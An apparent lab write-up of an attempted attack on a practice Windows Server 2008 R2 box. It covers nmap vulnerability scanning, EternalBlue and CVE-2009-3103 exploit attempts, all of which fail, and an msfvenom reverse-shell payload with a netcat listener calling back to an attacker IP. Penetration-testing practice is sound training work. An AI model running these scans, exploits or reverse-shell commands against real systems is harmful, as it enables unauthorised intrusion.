




# Internal

## Recon

I ran a script scan with `sudo nmap -sVC 192.168.55.40 --script vuln` against the target to enumerate it.

The victim seemed to be running Windows Server 2008 R2.

This script also let me know that this victim is vulnerable to CVE-2017-0143.

## Vulnerability

I searched `msfconsole` for a payload that matched CVE-2017-0143.

A few came up, and I used the fourth one, as it matches the target's technology.

I used the msfconsole module called `windows/smb/ms17_010_eternalblue`. 

This failed.

Then, the summary, I remembered that CVE-2009-3103 was mentioned, and I decided to search for it in msfconsole and pick the first one.

After running it, it fails.

Time to try something different. Let's research `CVE-2009-3103` on exploit-db.

I find this link:

https://www.exploit-db.com/exploits/40280

I save it to `./exploit40280.py`. 

I intend to use msfvenom thusly to update the payload:

    msfvenom -p windows/shell_revese_tcp LHOST=192.168.45.214 LPORT=443 EXITFUNC=thread -f python -v shell

And started a listener with `rlwrap nc -lvnp 443`:

Then, in another tab, I tried the exploit. 

I had to comment out the smb import.

It also failed.

I then found a Python3 version of the CVE-2009-3103 exploit on GitHub.

https://github.com/sec13b/ms09-050_CVE-2009-3103/blob/main/MS09_050_2.py?source=post_page-----49bca402f737---------------------------------------

I edited it with the same msfvenom payload.

Then I ran it. It failed due to missing `smb` package, so I made a virtualenv.

Now, we can finally run the exploit.'

It fails! I'm not sure why. I followed this medium guide pretty closely. I am going to chalk this up to code rot.

https://medium.com/@ayxantanirverdiyev6/pg-practice-internal-walkthrough-49bca402f737

## Recommendations

Upgrade to a newer Windows version immediately. It is highly likely that this victim is vulnerable to many other CVEs.